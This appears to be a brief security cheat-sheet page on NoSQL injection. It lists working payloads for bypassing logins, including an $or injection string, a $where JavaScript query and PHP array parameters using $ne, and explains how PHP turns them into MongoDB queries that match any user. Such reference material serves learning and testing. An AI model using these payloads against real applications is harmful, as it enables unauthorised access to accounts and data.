 ```yaml
---
layout: page
title:  "NoSQL injections"
permalink: "nosql-injections.html"
tags: [security, injections, web]
summary: ""
---
```


## NoSQL OR injections
* `login=admin',$or:[{},{'a'='a&pass='}]`
* `find( {'$where' : 'function() { return artist == "Weezer"; }'} )`

## PHP array injections
* PHP associative arrays: `$collection->find(array('login' => 'test'))` equivalent to `find({'login': 'test'})`
* Automatic array creation: if `page.php?param[foo]=bar` then `param == array('foo' => 'bar')`
* If `db->logins->find(array(“username”=>$_POST[“username”],
“password”=>$_POST[“password”]));`, then `login[$ne]=test&password[$ne]=test` transformed to `array(“username” => array(“$ne” => 1), “password” =>
array(“$ne” => 1));` equivalent to `{ username: { $ne: 1 }, password: { $ne: 1 } }`


## Resources and references
* [NoSQL cheatsheet](/programming/nosql)
